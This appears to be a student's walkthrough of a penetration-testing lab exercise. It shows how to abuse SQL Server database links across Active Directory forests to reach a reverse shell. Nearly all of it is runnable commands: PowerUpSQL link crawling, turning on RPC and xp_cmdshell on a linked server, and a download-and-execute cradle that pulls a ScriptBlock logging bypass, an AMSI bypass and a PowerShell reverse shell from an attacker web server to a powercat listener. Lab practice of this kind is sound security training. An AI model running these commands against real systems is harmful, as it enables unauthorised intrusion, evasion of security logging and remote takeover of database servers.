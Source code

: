 
Task 

• Get a reverse shell on a db-sqlsrv in db.local forest by abusing database links from us-mssql.


Let’s first enumerate database links on all the sql servers, we just need public access on for that. Let’s see if studentuserx has that access on any database in the domain. We will use PowerUpSQL for this from InvisiShell:

```
Import-Module .\PowerupSQL-master\PowerupSQL.psd1
```

```
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```


![[Pasted image 20250325161848.png]]

So we have non-sysadmin access to us-mssql. Let's enumerate database links for us-mssql:


```
Get-SQLServerLink -Instance us-mssql.us.techcorp.local - Verbose
```


![[Pasted image 20250325162105.png]]


So, there is a database link to a SQL Server from us-mssql server. Using HeidiSQL client, let’s login to usmssql using windows authentication of studentuserx. Once logged-in, use openquery to enumerate linked databases:

We can also use Get-SQLServerLinkCrawl from PowerUpSQL for crawling the database links automatically:
```
 Get-SQLServerLinkCrawl -Instance us-mssql -Verbose
```

![[Pasted image 20250325162152.png]]

So, we do have database links to other SQL Servers. If xp_cmdshell is enabled (or rpcout is true that allows us to enable xp_cmdshell), it is possible to execute commands on any node in the database links using the below commands

Try to execute a command on each node where xp_cmdshell is enabled:

```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''
```

![[Pasted image 20250325162300.png]]

Sweet! Looks like we can run operating system commands on DB-SQLPROD instance. Let’s try to execute a PowerShell reverse shell. We must first start a listener from InvisiShell:


```
. .\powercat.ps1
```

```
powercat -l -v -p 443 -t 1000
```

Now, use the PowerShell download execute cradle to run the reverse shell on DB-SQLPROD. Note that in the below command, we first run an ScriptBlock logging bypass, then an AMSI bypass and finally, the reverse shell. Remember to host all of them on a local web server:

```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.139/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.139/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.139/Invoke-PowerShellTcpEx.ps1)"'''
```

![[Pasted image 20250325162435.png]]

On listener on 192.168.100.X. Note that you may need to press 'Enter' couple of times on powercat listener to wake it up from slumber:

![[Pasted image 20250325162537.png]]

```
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"
```

```
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"

```

```
Invoke-SqlCmd -Query "EXECUTE ('sp_configure ''show advanced options'', 1; RECONFIGURE;') AT [db-sqlsrv]"

```

```
Invoke-SqlCmd -Query "EXECUTE ('sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') AT [db-sqlsrv]"
```

Let's try to execute commands on all the link nodes again and check if it works on db-sqlsrv too:

```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''
```

![[Pasted image 20250325162753.png]]

use the below command from PowerUpSQL:

```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.139/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.139/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.139/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget db-sqlsrv
```

![[Pasted image 20250325162834.png]]


